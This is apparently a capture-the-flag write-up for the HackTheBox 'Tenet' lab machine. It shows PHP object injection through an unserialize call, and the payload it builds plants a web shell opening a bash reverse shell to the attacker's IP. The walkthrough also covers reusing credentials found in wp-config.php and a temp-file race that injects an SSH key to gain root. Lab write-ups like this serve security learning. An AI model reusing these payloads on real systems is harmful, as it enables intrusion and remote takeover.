

Tenet is a Linux machine. The IP of the box is 10.10.10.223.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/tenet 10.10.10.223`




And I found two services:
- *ssh*
- *webserver nginx*

On webserver there is default apache page


So i started enumeration with gobuster

>gobuster dir -u 10.10.10.223 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o enum.out

and found a wordpress dir


On `10.10.10.23/wordpress` we have


 and found the following vhost `tenet.htb` where we have a post by `neil`


that write for  a problem with migration for 2 files `sator.php` and `backup`

Going on `10.10.10.23/sator.php` we got


search for the backup and found a backup file on `10.10.10.23/sator.php`

```php
// sator.php
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }


        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file,
$this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```


# User
We can [exploit](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection) the `unserialize` function.


So i write the following code for serialize  the `DatabaseExport` object and inject a rev shell
```php

class DatabaseExport {
  public $user_file = 'my.php';
  public $data = '<?php system("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.207/9090 0>&1\'"); ?>';
  }

print urlencode(serialize(new DatabaseExport));
```


Now i insert the obtained string in `http://10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A6%3A%22my.php%22%3Bs%3A4%3A%22data%22%3Bs%3A76%3A%22%3C%3Fphp+system%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.207%2F9090+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D`

Now from `http://10.10.10.223/my.php` can obtained the rev shell


After enumeration i found wordpress config file `wp-config.php`


with the credential of `neil` so i login as neil 


and take the user flag


# Root

I launch `sudo -l` and i get


So i checked `enableSSH.sh`

```bash

#!/bin/bash                                                         
                                                    
checkAdded() {                                                      
                                                                                                         
        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)                                                                            
                                                    
        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then                                                            
                                                    
                /bin/echo "Successfully added $sshName to authorized_keys file!"                                                        

        else                                                        

                /bin/echo "Error in adding $sshName to authorized_keys file!"                                                           

        fi                                                          

}                                                                   

checkFile() {                                                       

        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then                                                                                         

                /bin/echo "Error in creating key file!"                                                                                 

                if [[ -f $1 ]]; then /bin/rm $1; fi                                                                                     

                exit 1                                              

        fi                                                          

}                                                                   

addKey() {                                                          

        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)                      

        (umask 110; touch $tmpName)                                 

        /bin/echo $key >>$tmpName                                   

        checkFile $tmpName                                          

        /bin/cat $tmpName >>/root/.ssh/authorized_keys                                                                                  

        /bin/rm $tmpName                                            

} 
```
The `addKey()` function copy a generated ssh key from a `tmp file` to `authorized_keys` in root folder.

So i generate a my pair of key and try to inject the pub key  in the tmp file.

The following script copy the content of t (where i insert my pub key) in the generated tmp file(from `addKey()`).

```bash
#!/bin/bash

while true
do

cat t | tee ssh-*;

done
```
So i started the script and later i executed `enableSSH.sh`


And now can login as `root` with ssh.

and grab the flag


